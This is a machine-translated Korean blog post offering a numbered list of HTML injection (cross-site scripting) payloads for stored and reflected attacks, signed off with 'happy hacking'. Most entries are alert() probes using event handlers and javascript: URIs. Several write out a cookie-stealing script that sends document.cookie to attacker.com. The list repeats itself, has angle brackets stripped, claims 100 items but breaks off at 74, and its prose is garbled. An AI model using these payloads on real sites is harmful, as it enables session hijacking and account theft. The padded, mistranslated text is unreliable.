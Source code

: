 ```yaml
---
title: "HTML 삽입 (페이로드 목록)"
description: ""
coverImage: "/assets/img/2024-05-02-HTMLINJECTIONPayloadList_0.png"
date: 2024-05-02 00:01
ogImage: 
  url: /assets/img/2024-05-02-HTMLINJECTIONPayloadList_0.png
tag: Tech
originalTitle: "HTML INJECTION (Payload List)"
link: "https://medium.com/@psychomong/html-injection-payload-list-735e69f522ca"
---
```



피신몽인 사람들, 다시 돌아

주사, 이제 페이로드 목록을 가져 오는 것을 보여드리고, 검색 패널에서 시도해 볼 수 있으며, 그대로 반영될 수 있습니다 & 저장되면 위험할 수도 있습니다,

이제 같은 것에 대해 몇 가지 기본 사항을 살펴보겠습니다. HTML 주입이 무엇인지 알아보기 위해
아스타 타커
HTML 주입 또는 주입 관련 질문에 대해, 바로 코드만 제공해 드릴게요. 이것을 시도해서 혜택을 얻어보세요..... 


![HTML INJECTION Payload List](/assets/img/2024-05-02-HTMLINJECTIONPayloadList_0.png)

<div class="content-ad"></div>

페이로드 목록을 확인해 보세요...

물론이죠! 저장된 및 반사된 HTML 주입 페이로드 100개를 모두 포함한 목록입니다:

저장된 HTML 주입 페이로드:
1. `script`alert(‘저장된 HTML 주입’)`/script`
2. `img src=”javascript:alert(‘저장된 HTML 주입’)”`
3. `svg/onload=alert(‘저장된 HTML 주입’)`
4. `iframe src=”javascript:alert(‘저장된 HTML 주입’)”`
5. `body onload=alert(‘저장된 HTML 주입’)`
6. `img src=x onerror=alert(‘저장된 HTML 주입’)`
7. `marquee onstart=alert(‘저장된 HTML 주입’)`
8. `input type=”image” src=”javascript:alert(‘저장된 HTML 주입’)”`
9. `img src=1 href=1 onerror=alert(‘저장된 HTML 주입’) /`
10. `input type=”hidden” onkeypress=”alert(‘저장된 HTML 주입’)”`
11. `audio onloadstart=”alert(‘저장된 HTML 주입’)”`
12. `form onsubmit=”alert(‘저장된 HTML 주입’)”`
13. `textarea onchange=”alert(‘저장된 HTML 주입’)”`
14. `base href=”javascript:alert(‘저장된 HTML 주입’)”`
15. `a href=”javascript:alert(‘저장된 HTML 주입’)”`여기를 클릭하세요`/a`
16. `object data=”javascript:alert(‘저장된 HTML 주입’)”`
17. `img src=”x” onmouseover=”alert(‘저장된 HTML 주입’)”`
18. `script`document.write(‘`iframe src=”https://attacker.com/steal-cookies?cookie=` + document.cookie + ‘“``/iframe`’);`/script`
19. `body background=”javascript:alert(‘저장된 HTML 주입’)”`
20. `embed src=”javascript:alert(‘저장된 HTML 주입’)”`
21. `script`alert(‘반사된 HTML 주입’)`/script`
22. `img src=”javascript:alert(‘반사된 HTML 주입’)”`
23. `svg/onload=alert(‘반사된 HTML 주입’)`
24. `iframe src=”javascript:alert(‘반사된 HTML 주입’)”`
25. `body onload=alert(‘반사된 HTML 주입’)`
26. `img src=x onerror=alert(‘반사된 HTML 주입’)`
27. `marquee onstart=alert(‘반사된 HTML 주입’)`
28. `input type=”image” src=”javascript:alert(‘반사된 HTML 주입’)”`
29. `img src=1 href=1 onerror=alert(‘반사된 HTML 주입’) /`
30. `input type=”hidden” onkeypress=”alert(‘반사된 HTML 주입’)”`
31. `audio onloadstart=”alert(‘반사된 HTML 주입’)”`
32. `form onsubmit=”alert(‘반사된 HTML 주입’)”`
33. `textarea onchange=”alert(‘반사된 HTML 주입’)”`
34. `base href=”javascript:alert(‘반사된 HTML 주입’)”`
35. `a href=”javascript:alert(‘반사된 HTML 주입’)”`여기를 클릭하세요`/a`
36. `object data=”javascript:alert(‘반사된 HTML 주입’)”`
37. `img src=”x” onmouseover=”alert(‘반사된 HTML 주입’)”`
38. `script`document.write(‘`iframe src=”https://attacker.com/steal-cookies?cookie=` + document.cookie + ‘“``/iframe`’);`/script`
39. `body background=”javascript:alert(‘반사된 HTML 주입’)”`
40. `embed src=”javascript:alert(‘반사된 HTML 주입’)”`

41. `svg/onload=alert(‘저장된 HTML 주입’)`
42. `body onload=alert(‘저장된 HTML 주입’)`
43. `img src=x onerror=alert(‘저장된 HTML 주입’)`
44. `marquee onstart=alert(‘저장된 HTML 주입’)`
45. `input type=”image” src=”javascript:alert(‘저장된 HTML 주입’)”`
46. `img src=1 href=1 onerror=alert(‘저장된 HTML 주입’) /`
47. `input type=”hidden” onkeypress=”alert(‘저장된 HTML 주입’)”`
48. `audio onloadstart=”alert(‘저장된 HTML 주입’)”`
49. `form onsubmit=”alert(‘저장된 HTML 주입’)”`
50. `textarea onchange=”alert(‘저장된 HTML 주입’)”`
51. `base href=”javascript:alert(‘저장된 HTML 주입’)”`
52. `a href=”javascript:alert(‘저장된 HTML 주입’)”`여기를 클릭하세요`/a`
53. `object data=”javascript:alert(‘저장된 HTML 주입’)”`
54. `img src=”x” onmouseover=”alert(‘저장된 HTML 주입’)”`
55. `script`document.write(‘`iframe src=”https://attacker.com/steal-cookies?cookie=` + document.cookie + ‘“``/iframe`’);`/script`
56. `body background=”javascript:alert(‘저장된 HTML 주입’)”`
57. `embed src=”javascript:alert(‘저장된 HTML 주입’)”`
58. `img src=”javascript:alert(‘저장된 HTML 주입’)” onerror=”alert(‘저장된 HTML 주입’)”`
59. `body``svg``script`alert(‘저장된 HTML 주입’)`/script``/svg``/body`
60. `a href=”data:text/html,`script`alert(‘저장된 HTML 주입’)`/script`”`여기를 클릭하세요`/a`

<div class="content-ad"></div>

반가워요! 

다음은 HTML 주입 페이로드 결과입니다:
61. `svg/onload=alert(‘주입된 HTML 삽입’)`
62. `body onload=alert(‘주입된 HTML 삽입’)`
63. `img src=x onerror=alert(‘주입된 HTML 삽입’)`
64. `marquee onstart=alert(‘Reflected HTML Injection’)`
65. `input type=”image” src=”javascript:alert(‘주입된 HTML 삽입’)”`
66. `img src=1 href=1 onerror=alert(‘주입된 HTML 삽입’) /`
67. `input type=”hidden” onkeypress=”alert(‘주입된 HTML 삽입’)”`
68. `audio onloadstart=”alert(‘주입된 HTML 삽입’)”`
69. `form onsubmit=”alert(‘주입된 HTML 삽입’)”`
70. `textarea onchange=”alert(‘주입된 HTML 삽입’)”`
71. `base href=”javascript:alert(‘주입된 HTML 삽입’)”`
72. `a href=”javascript:alert(‘주입된 HTML 삽입’)”`Click me`/a`
73. `object data=”javascript:alert(‘주입된 HTML 삽입’)”
74. `img src=”x” onmouseover=”alert(‘주입된 HTML 삽입’)”`
... (중략)

여기까지 주입을 시도해보고, 어디에 삽입해야 하는지 알려줘.... 찾아보세요..

다음주 월요일에 만나요,

<div class="content-ad"></div>

행복한 해킹! 해커들...